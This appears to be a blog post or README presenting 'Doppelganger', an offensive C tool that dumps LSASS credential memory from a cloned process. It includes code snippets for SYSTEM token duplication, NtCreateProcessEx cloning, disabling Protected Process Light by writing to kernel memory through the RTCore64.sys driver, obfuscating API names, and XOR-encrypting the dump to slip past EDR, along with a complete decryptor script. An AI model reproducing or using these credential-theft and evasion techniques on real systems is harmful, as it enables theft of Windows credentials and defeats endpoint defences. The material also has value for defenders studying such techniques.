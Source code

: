 ```yaml
---
title: "Doppelganger"
date: 2025-04-02T15:28:21+02:00
draft: false
---
```


### Doppelganger Program: An Advanced LSASS Dumper with Process Cloning

#### Author: vari.sh

---

![Doppelganger](/images/doppelganger.png)

## Overview

The **Doppelganger Program** is an advanced Windows utility designed to obtain an LSASS (Local Security Authority Subsystem Service) dump from a cloned process, rather than the original one. By using process cloning techniques, the tool aims to bypass PPL (Process Protected Light), VBS (Virtualization Based Security), EDR/XDR detection mechanisms that typically monitor interactions with `lsass.exe`.

The program achieves this by:
- Obtaining a SYSTEM token through token duplication.
- Loading clean versions of Windows DLLs to avoid detection.
- Cloning the LSASS process using `NtCreateProcessEx`.
- Disabling PPL (Protected Process Light) protection on `lsass.exe`.
- Creating an LSASS dump using `MiniDumpWriteDump()`.
- Encrypting the dump file using XOR encryption to further avoid detection.

---

## Features

- **Process Cloning:** Uses `NtCreateProcessEx` to clone `lsass.exe` and avoid detection.
- **XOR Encryption:** Dumps are encrypted with a predefined XOR key before being written to disk.
- **Driver Interaction:** Leverages `RTCore64.sys` for direct memory access to disable PPL.
- **Token Manipulation:** Elevates to SYSTEM privileges to access LSASS.
- **DLL Offuscation:** Loads DLLs using encrypted strings to bypass signature-based detections.

---

## Installation

The Doppelganger Program is written in C and is intended to be compiled using Visual Studio. The repository is structured as follows:

```
doppelganger/
│
├── includes/          # Header files (.h)
├── src/               # Source files (.c)
├── build/             # Output binaries
├── utils/             # Utility scripts (e.g., decryptor)
└── README.md          # Documentation
```

### Compilation

Compile the project in Visual Studio using the provided solution file.
Ensure to have the `RTCore64.sys` driver present and accessible by the program.

---

## Code Breakdown

### 1. Resolving APIs

The tool resolves critical Windows APIs by decrypting their names from encrypted strings and dynamically loading them with `CustomGetProcAddress()`.

```c
// Example of resolving API pointers
BOOL success =
    ResolveApiFromDll(hKernel32, P32F_ENC, sizeof(P32F_ENC), (void**)&pP32F) &&
    ResolveApiFromDll(hNtdll, NTCPE_ENC, sizeof(NTCPE_ENC), (void**)&pNTCPX) &&
    ResolveApiFromDll(hAdvapi32, OPTK_ENC, sizeof(OPTK_ENC), (void**)&pOPTK);

if (!success) {
    log_error("Failed to resolve one or more APIs.");
    return FALSE;
}
```

### 2. Token Duplication

To interact with `lsass.exe`, the tool impersonates SYSTEM using duplicated tokens.

```c
HANDLE hSystemToken = NULL;
if (!GetSystemTokenAndDuplicate(&hSystemToken)) {
    log_error("Failed to duplicate SYSTEM token.");
    return 1;
}
```

### 3. Process Cloning

Using `NtCreateProcessEx`, the tool creates a clone of `lsass.exe`.

```c
NTSTATUS status = pNTCPX(
    &hClone,
    PROCESS_ALL_ACCESS,
    &objAttr,
    hLsass,
    0,
    NULL,
    NULL,
    NULL,
    FALSE
);
```

### 4. Disabling PPL

Protected Process Light (PPL) protection is disabled by directly modifying memory using the `RTCore64.sys` driver.

```c
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 2, 0x00); // SignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection - 1, 0x00); // SectionSignatureLevel
WriteMemoryPrimitive(Device, 1, eproc + offs.Protection, 0x00); // Protection
log_success("PPL disabled (0x00 written)");
```

After the cloning, the values will be restored.

### 5. Creating the Dump

Finally, a memory dump of the cloned `lsass.exe` process is created and encrypted.

```c
BOOL dumped = pMDWD(
    hClone,
    clonedPID,
    hTempFile,
    MiniDumpWithFullMemory,
    NULL,
    NULL,
    NULL
);
```

---

## Decryption

A simple Python script is provided to decrypt the dumped files.

```python
import sys

XOR_KEY = b"0123456789abcdefghij"

def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes([b ^ key[i % len(key)] for i, b in enumerate(data)])

def main():
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <xor_dump_path>")
        sys.exit(1)

    encrypted_path = sys.argv[1]
    output_path = encrypted_path + ".dec"

    with open(encrypted_path, "rb") as f:
        data = f.read()

    decrypted = xor_decrypt(data, XOR_KEY)

    with open(output_path, "wb") as f:
        f.write(decrypted)

    print(f"Decryption successful. Output written to: {output_path}")

if __name__ == "__main__":
    main()
```

---

## Conclusion

The Doppelganger Program demonstrates how process cloning, API obfuscation, and memory manipulation can be used to bypass traditional detection mechanisms. The combination of techniques makes it effective at retrieving sensitive memory data even on systems protected by anti-tampering mechanisms.

---

## Disclaimer

This project is for educational purposes only. Use responsibly and only in environments where you have explicit permission to test security mechanisms.

